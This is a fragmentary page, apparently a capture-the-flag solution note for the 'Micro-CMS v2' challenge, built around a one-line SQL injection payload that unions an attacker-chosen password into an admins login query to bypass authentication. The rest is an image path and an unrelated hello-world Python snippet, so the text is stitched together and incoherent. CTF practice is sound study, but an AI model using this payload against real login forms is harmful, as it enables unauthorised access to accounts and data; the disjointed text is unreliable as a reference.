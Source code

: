 ### Micro-CMS v2
Flag0 

' UNION SELECT 'pass' AS password FROM admins WHERE '1' = '1 

```python def hello(): print("Hello, GitHub!") ```

